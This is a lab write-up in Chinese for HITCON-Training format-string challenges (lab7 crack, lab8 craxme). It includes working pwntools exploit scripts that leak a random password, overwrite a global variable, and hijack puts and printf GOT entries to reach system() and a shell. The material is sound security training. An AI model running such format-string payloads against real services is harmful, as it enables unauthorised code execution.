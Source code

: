 # week2
## hitcon-training -- lab7(crack)
密码是随机生成的 存在格式化字符串漏洞

<img width="264" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/076b02b9-cc70-4179-80f0-a5335602685f">


可以利用格式化字符串读获取password
### exp_crack.py
```python
from pwn import *
p = process("./crack")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

password_addr = 0x804a048

payload = p32(password_addr) + b'#%10$s'
ru('name ? ')
sl(payload)

ru('#')
password = u32(rx(4))
log.info("password ==> {}".format(hex(password)))

ru('password :')
sl(str(password))

shell()
```

## hitcon-training -- lab8(craxme)
存在格式化字符串漏洞 

<img width="306" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/0c88b93b-709f-49dc-a22f-0b5c98d00d13">

可以用格式化字符串写漏洞复写全局变量magic
前两个复写的方式相同
### exp_craxme1.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xDA 

payload = fmtstr_payload(7, {magic_addr:magic_data}, write_size="byte")
ru("magic :")
sl(payload)

shell()

#raw_input("Ther")
```

### exp_craxme2.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xFACEB00C

payload = p32(magic_addr) + p32(magic_addr+2)
payload+= b"%45060c%7$hn%19138c%8$hn"

raw_input("Ther")
ru("magic :")
sl(payload)

shell()
```

具体说一下getshell的方法
程序中有system函数 所以我们是可以通过覆盖某个函数的got表为system来getshell的
但只有一次格式化字符串的机会 在格式化字符串函数之后 可能执行的分支为system和puts函数

<img width="318" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/30fe380e-80cf-4db0-b51b-901a4d9bfdd8">

但调用这两个函数的参数不可控，所以需要复写其他函数的got表 最后发现只有printf函数的参数可控
那么我们可以将puts的got表覆盖为main函数调用read的地址
同时将printf的got表覆盖为system
这样在程序继续执行时就会调用puts函数 然后跳转到read@main 继续执行一次read和printf
在执行到printf时真正调用的是system 我们的输入就是system的参数

### exp_craxme3.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

pritnf_got = 0x804a010
puts_got = 0x804a018
read_main = 0x804859B
system_plt = 0x8048410

payload = p32(puts_got) + p32(puts_got+2) + p32(pritnf_got) + p32(pritnf_got+2)
payload+= b"%34187c%7$hn%33385c%8$hn%31756c%9$hn%33780c%10$hn"

raw_input("Ther")
ru("magic :")
sl(payload)

shell()
```



